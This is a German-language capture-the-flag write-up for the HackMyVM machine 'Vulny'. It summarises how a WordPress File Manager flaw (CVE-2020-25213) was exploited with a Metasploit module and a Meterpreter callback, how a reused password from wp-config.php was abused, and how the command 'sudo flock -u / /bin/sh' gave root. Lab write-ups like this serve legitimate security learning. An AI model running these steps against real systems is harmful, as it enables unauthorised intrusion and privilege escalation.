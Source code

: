 # Vulny - HackMyVM (Easy)
 
![Vulny.png](Vulny.png)

## Übersicht

*   **VM:** Vulny
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Vulny)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 8. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Vulny_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Vulny"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), auf dem eine WordPress-Installation im Unterverzeichnis `/secret/` gefunden wurde. Über das Metasploit-Modul `exploit/multi/http/wp_file_manager_rce` (ausnutzend CVE-2020-25213 im File Manager Plugin) wurde eine Meterpreter-Session als `www-data` erlangt. Als `www-data` konnte die Datei `/usr/share/wordpress/wp-config.php` gelesen werden, die das Passwort `idrinksomewater` für den Datenbankbenutzer enthielt. Dieses Passwort funktionierte auch für den Linux-Benutzer `adrian`, zu dem mittels `su` gewechselt wurde. Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch Ausnutzung einer unsicheren `sudo`-Regel: `adrian` durfte `/usr/bin/flock` als `root` ohne Passwort ausführen. Durch den Befehl `sudo flock -u / /bin/sh` wurde eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `msfconsole` (Metasploit Framework)
*   `meterpreter`
*   `python3` (für Shell-Stabilisierung)
*   `cat`
*   `ls`
*   `su`
*   `sudo`
*   `flock`
*   `sh`
*   `id`
*   Standard Linux-Befehle (`cd`, `export`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Vulny" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.125`).
    *   `nmap`-Scan identifizierte offene Ports: 80 (HTTP - Apache 2.4.41 "It works") und 33060 (mysqlx?).
    *   `gobuster` auf Port 80 fand das Verzeichnis `/secret/`, das eine WordPress-Installation enthielt.

2.  **Initial Access (WordPress RCE zu `www-data`):**
    *   Verwendung von Metasploit: `search wp-file-manager` fand `exploit/multi/http/wp_file_manager_rce`.
    *   Konfiguration des Exploits: `set rhost 192.168.2.125`, `set lhost [Angreifer-IP]`, `set targeturi /secret`, `set ForceExploit true`.
    *   Ausführung des Exploits (`run`) führte zu einer Meterpreter-Session als `www-data`.
    *   Wechsel zu einer System-Shell (`shell`) und Stabilisierung dieser (Python PTY, `export TERM=xterm`).

3.  **Privilege Escalation (von `www-data` zu `adrian`):**
    *   Als `www-data` wurde die Datei `/usr/share/wordpress/wp-config.php` gelesen. *Der genaue Inhalt/Passwort-Extraktion ist im Log nicht gezeigt, aber das Passwort `idrinksomewater` wird im nächsten Schritt verwendet.*
    *   Identifizierung des Benutzers `adrian` durch `ls /home`.
    *   Wechsel zum Benutzer `adrian` mittels `su adrian` und dem Passwort `idrinksomewater`.
    *   User-Flag `HMViuploadfiles` in `/home/adrian/user.txt` gelesen.

4.  **Privilege Escalation (von `adrian` zu `root` via `sudo flock`):**
    *   `sudo -l` als `adrian` zeigte: `(ALL : ALL) NOPASSWD: /usr/bin/flock`.
    *   Ausnutzung dieser Regel durch `sudo flock -u / /bin/sh`.
    *   Erlangung einer Root-Shell.
    *   Root-Flag `HMVididit` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Veraltetes WordPress-Plugin (File Manager CVE-2020-25213):** Anfällig für nicht authentifizierte Remote Code Execution, ausgenutzt mit Metasploit.
*   **Klartext-Credentials in `wp-config.php`:** Datenbankpasswort war lesbar für `www-data`.
*   **Passwort-Wiederverwendung:** Das Datenbankpasswort war identisch mit dem Linux-Passwort des Benutzers `adrian`.
*   **Unsichere `sudo`-Konfiguration (`flock`):** Die Erlaubnis, `/usr/bin/flock` als `root` ohne Passwort auszuführen, ermöglichte durch Starten einer Shell die Erlangung von Root-Rechten.

## Flags

*   **User Flag (`/home/adrian/user.txt`):** `HMViuploadfiles`
*   **Root Flag (`/root/root.txt`):** `HMVididit`

## Tags

`HackMyVM`, `Vulny`, `Easy`, `WordPress`, `File Manager Plugin`, `CVE-2020-25213`, `Metasploit`, `RCE`, `wp-config.php`, `Password Reuse`, `sudo Exploitation`, `flock`, `Privilege Escalation`, `Linux`, `Web`
